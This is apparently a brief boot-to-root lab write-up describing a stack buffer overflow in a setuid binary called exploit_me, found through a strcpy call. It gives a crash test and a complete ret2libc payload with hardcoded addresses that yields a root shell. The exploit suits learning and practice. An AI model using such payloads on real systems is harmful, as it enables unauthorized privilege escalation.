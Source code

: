 We need this line ``0x08048420 <+44>:	call   0x8048300 <strcpy@plt>`` after reading in the inrnetes we find that it has a vulnerability in the form of a stack overflow. Check.

``./exploit_me $(python -c "print('`' * 140)")`` -> ``Illegal instruction (core dumped)``

Find a description [ret2libc attack](http://shellblade.net/docs/ret2libc.pdf)

Using:
![
](/imgs/img2_9.png)

According to the description, we get a script in the form:

``./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])") id uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)``

# U are root.

































